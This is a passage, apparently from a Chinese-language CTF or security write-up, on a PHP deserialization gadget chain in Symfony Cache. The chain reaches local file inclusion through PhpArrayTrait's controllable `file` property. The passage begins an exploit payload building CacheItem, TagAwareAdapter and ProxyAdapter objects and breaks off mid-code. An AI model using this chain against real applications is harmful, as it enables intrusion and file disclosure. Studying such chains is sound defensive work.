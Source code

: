 它的 initialize 方法在 PhpArrayTrait 里面 (trait 是 php 实现多继承的一种方式)

![image-20221222213527005](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212222135070.png)

`file` 属性可控, 造成 lfi

最后两个链子的 payload 如下, 注意用 ProxyAdapter 构造的时候两个 `poolHash` 要相同

```php
<?php

namespace Symfony\Component\Cache\Traits {
    trait PhpArrayTrait {
        private $file;
        private $keys;
        private $values;
    }
}

namespace Symfony\Component\Cache {
    final class CacheItem {

        protected $key;
        protected $value;
        protected $isHit = false;
        protected $expiry;
        protected $defaultLifetime;
        protected $metadata = [];
        protected $newMetadata = [];
        protected $innerItem;
        protected $poolHash;
        protected $isTaggable = false;

        public function __construct($poolHash, $innerItem) {
            $this->poolHash = $poolHash;
            $this->innerItem = $innerItem;
        }
    }
}

namespace Symfony\Component\Cache\Adapter {

    use Symfony\Component\Cache\Traits\PhpArrayTrait;

    class TagAwareAdapter {
    
        private $deferred = [];
        private $createCacheItem;
        private $setCacheItemTags;
        private $getTagsByKey;
        private $invalidateTags;
        private $tags;
        private $knownTagVersions = [];
        private $knownTagVersionsTtl;

        public function __construct($deferred, $pool) {
            $this->deferred = $deferred;
            $this->pool = $pool;
        }
    }

    class ProxyAdapter {

        private $namespace;
        private $namespaceLen;
```